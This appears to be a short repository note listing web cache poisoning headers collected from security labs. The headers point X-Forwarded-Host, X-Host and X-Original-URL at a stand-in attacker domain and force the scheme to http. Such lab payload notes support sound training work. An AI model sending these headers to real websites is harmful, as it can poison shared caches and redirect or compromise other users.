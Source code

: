 ----

- Here you can find some payloads collected from the labs



#### Web Cache Poisoning Headers


```
X-Forwarded-Host: rodnt.evil.com
X-Forwarded-Proto: http
X-Forwarded-Scheme: http
X-Host: rodnt.evil.com
X-Original-URL: rodnt.evil.com
```